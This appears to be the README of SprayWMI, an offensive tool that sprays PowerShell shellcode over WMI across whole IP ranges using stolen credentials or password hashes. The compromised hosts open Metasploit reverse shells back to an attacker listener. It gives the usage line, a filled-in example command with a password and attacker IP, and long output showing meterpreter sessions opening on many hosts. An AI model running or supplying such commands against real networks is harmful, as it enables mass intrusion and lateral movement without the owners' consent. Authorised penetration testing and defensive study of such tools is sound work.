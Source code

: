 SprayWMI is a method for mass spraying unicorn powershell injection to CIDR notations.

Flag descriptions:

DOMAIN - domain you are attacking - if its local, just specify workgroup
USERNAME - username to authenticate on the remote Windows system
PASSWORD - password or password hash lm:ntlm to use on the remote Windows system
CIDR_RANGE,CIDR_RANGE or ips.txt - you can specify a single ip, a CIDR range (192.168.1.1/24) or multiple CIDRs such as 192.168.1.1/24,192.168.2.1/24. You can also specify a file (ex: file.txt) which has single IP addresses on a new line. 
METASPLOIT_PAYLOAD - this is the payload you want to use example: windows/meterpreter/reverse_tcp
REVERSE_SHELL_IP - this is the IP address of your attacker machine that you want to create a listener or use an already established listener
REVERSE_SHELL_PORT - port to connect back on for the reverse
OPTIONAL: NO - specify no if you do not want to create a listener - this is useful if you already have a listener established. If you do not specify a value here, it will automatically create a listener for you.

Usage: python spraywmi.py <domain> <username> <password or hash lm:ntlm> <cidr_range,cidr_range or ips.txt> <metasploit_payload> <reverse_shell_ip> <reverse_shell_port> <optional: no>

Below is an example of output from spraywmi:

root@stronghold:/home/relik# python spraywmi.py TS kennedy-test complexP255w0rd! 192.168.90.1/24,192.168.0.1/24,192.168.59.1/24,192.168.96.1/24,192.168.1.1/24 windows/meterpreter/reverse_tcp 192.168.47.24 443
[*] Generating shellcode through unicorn, could take a few seconds...
[*] Launching the listener in the background...
[*] Waiting for the listener to start first before we continue forward...
[*] Be patient, Metaploit takes a little bit to start...
[*] Sweeping network for ports that are open first, then moving through... Be patient.
[*] Launching WMI spray against IP: 192.168.90.1 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.2 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.7 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.11 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.14 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.16 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.18 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.25 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.30 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.37 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.38 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.39 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.41 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.46 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.52 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.53 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.54 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.55 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.58 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.63 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.64 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.101 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.102 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.106 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.107 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.113 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.119 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.151 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.158 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.159 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.171 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.174 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.175 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.176 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.183 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.184 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.187 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.197 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.199 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.203 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.204 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.208 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.216 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.223 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.225 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.227 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.228 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.231 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.237 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.240 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.244 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.248 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.252 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.1 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.2 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.3 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.4 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.92 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.3 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.4 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.11 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.12 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.20 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.21 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.22 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.23 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.242 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.1.13 - you should have a shell in the background. Once finished, shell will spawn
[*] Spraying is still happening in the background, shells should arrive as they complete.
[*] Interacting with Metasploit...
...
msf exploit(handler) > 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.174
[*] Meterpreter session 1 opened (192.168.47.24:443 -> 192.168.90.174:49868) at 2015-10-13 04:33:55 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.203
[*] Meterpreter session 2 opened (192.168.47.24:443 -> 192.168.90.203:51333) at 2015-10-13 04:33:59 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.184
[*] Meterpreter session 3 opened (192.168.47.24:443 -> 192.168.90.184:61218) at 2015-10-13 04:34:02 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.204
[*] Meterpreter session 4 opened (192.168.47.24:443 -> 192.168.90.204:54219) at 2015-10-13 04:34:06 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.175
[*] Meterpreter session 5 opened (192.168.47.24:443 -> 192.168.90.175:54210) at 2015-10-13 04:34:10 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.16
[*] Meterpreter session 6 opened (192.168.47.24:443 -> 192.168.90.16:56657) at 2015-10-13 04:34:14 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.96.242
[*] Meterpreter session 7 opened (192.168.47.24:443 -> 192.168.96.242:49504) at 2015-10-13 04:34:18 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.183
[*] Meterpreter session 8 opened (192.168.47.24:443 -> 192.168.90.183:56926) at 2015-10-13 04:34:28 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.248
[*] Meterpreter session 9 opened (192.168.47.24:443 -> 192.168.90.248:53657) at 2015-10-13 04:34:31 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.39
[*] Meterpreter session 10 opened (192.168.47.24:443 -> 192.168.90.39:60451) at 2015-10-13 04:34:35 -0400
[*] Encoded stage with x86/shikata_ga_nai

